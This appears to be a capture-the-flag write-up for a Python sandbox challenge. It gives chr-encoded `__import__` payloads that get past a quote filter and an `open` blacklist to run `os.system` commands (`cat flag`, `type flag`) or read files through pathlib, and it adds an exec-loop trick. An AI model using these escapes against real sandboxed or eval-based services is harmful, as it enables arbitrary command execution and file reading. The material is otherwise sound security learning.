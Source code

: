 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
```py
__import__("os").system("type flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x74, 0x79, 0x70, 0x65, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Unix:
```py
__import__("os").system("cat flag")
# encoded:
__import__(str().join(map(chr, [0x6F, 0x73]))).system(str().join(map(chr, [0x63, 0x61, 0x74, 0x20, 0x66, 0x6C, 0x61, 0x67])))
```
##### Crossplatform (using pathlib):
```py
__import__("pathlib").Path("flag").read_text()
# encoded:
__import__(str().join(map(chr, [112, 97, 116, 104, 108, 105, 98]))).Path(str().join(map(chr, [102, 108, 97, 103]))).read_text()
```

## Trivia
Without removing `exec` and `eval` you could do:
```py
:exec(input())
while True: exec(input('> '))
> from pathlib import *
> print(pathlib.Path('flag').read_text())
```
